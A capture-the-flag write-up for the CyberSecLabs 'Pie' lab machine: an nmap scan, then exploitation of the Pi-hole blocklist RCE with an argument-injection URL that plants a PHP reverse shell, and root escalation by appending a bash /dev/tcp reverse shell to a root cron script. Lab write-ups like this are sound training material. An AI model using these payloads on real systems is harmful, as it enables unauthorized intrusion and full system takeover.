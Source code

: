# CyberSecLabs: Pie : 172.31.1.26

We begin with out trusted nmap scan:

```zsh
nmap -sS -p- -r -v -T4 -Pn 172.31.1.26
Nmap scan report for 172.31.1.26
Host is up (0.17s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Fri Jul 24 00:45:34 2020 -- 1 IP address (1 host up) scanned in 358.59 seconds

```
On visiting port 80, you will see a link to visit the admin panel. Click on the link and you will see in Pihole admin console.

Now on a little research we come to know there is an RCE.
Ref link: https://frichetten.com/blog/cve-2020-11108-pihole-rce/

- Now ```Navigate to Settings > Blocklists```

- Enter this in the url 
```http://10.10.0.40#" -o fun.php -d "```

- Start a listener 80 (necessary)

- Click on Save

You will now recieve a GET Request, it is necessary for us to give it a 200 OK with 2 enter key strokes. Enter some random data . Hit Enter 2 times. Then hit CTRL C to close the nc. 

- Restart the listener again and click on Update in the ```UPDATE GRAVITY``` window.

- If you have done this correctly so far you will get a .domains with POST REQUEST. Press enter and put your PHP reverse shell code.  And then CTRL C again to end the connection

Start your listener and visit ```172.31.1.26/admin/scripts/pi-hole/php/fun.php``` and you will have a shell as www-data

![www-data shell](./images/www.png)

Now spawn a tty shell using:

```                               
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Now do a ```sudo -l``` to see this :

![sudo -l](./images/sudol.png)

Now escalate yourself to pi using ```sudo -u pi /bin/bash```

Run linpeas.sh or simple check the cronjobs.

You will see this :

```*/1 * * * * root /home/pi/restart-pihole.sh```

This job is running every minute.
If you go to your home directory and check you can write to this file. Simply edit or append to it using nano or echo 
```bash -i >& /dev/tcp/10.10.0.40/443 0>&1```

Start a new listener and get a shell as root after a min.

Cheers !